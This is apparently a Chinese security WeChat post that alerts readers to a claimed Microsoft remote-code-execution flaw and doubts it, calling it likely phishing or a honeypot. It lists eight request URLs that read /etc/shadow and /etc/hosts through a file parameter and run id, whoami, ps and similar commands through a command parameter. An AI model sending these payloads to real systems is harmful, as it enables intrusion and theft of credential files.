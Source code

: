 #  【漏洞预警】微软最新版RCE，感觉像是钓鱼或者蜜罐   
cexlife  飓风网络安全   2024-04-26 17:10  
  
目前看这个域名的构成不怎么正常  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dSdfwFJN5RschOsogXAL5cfYyqiaf1y9iaZIU3jwlzu33dXtw30qxKNnMg/640?wx_fmt=png&from=appmsg "")  
```
http://code.microsoft.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=/etc/shadow

http://code.microsoft.com/pages/systemcall.php?command=id

http://code.microsoft.com/pages/systemcall.php?command=whoami

http://code.microsoft.com/pages/systemcall.php?command=ifconfig

http://code.microsoft.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=/etc/hosts

http://code.microsoft.com/pages/systemcall.php?command=ls%20-l%20/

http://code.microsoft.com/pages/systemcall.php?command=history

http://code.microsoft.com/pages/systemcall.php?command=ps%20-ef
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dShibu5exiacXKMRtl45PdM02cIOwtEhXCAV1sSxBGJvQIrPSd5ewKVGQw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dST01JJ696HfoWSeeKDwvcOha6ODJB1U9eCaia8JRGFtOFRKiaapkibcMzQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**相关情报查询：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dSmWYOtjK0zeVtW31pibP4CicJDGjaytv6CQeSIKqhp8JaRQLH1LyEiadAw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dSSxBYViar0VGVUDsBdj4eUVHTVpyKdAywHsceKRrbiaW6xy13I5qgbJ3w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dS0POI3mqQxu3DvtTKQJIFMXG1ic25HQuhDTVibxp63f1Qeib4jRAPqApnA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00JMOib7gyTDKrewAlyEo6dS6GtsT0bFMSU0dOk442hVk52rvqP5mArfjia3Nroy8A9MKbTTRdv7McQ/640?wx_fmt=png&from=appmsg "")  
  
  
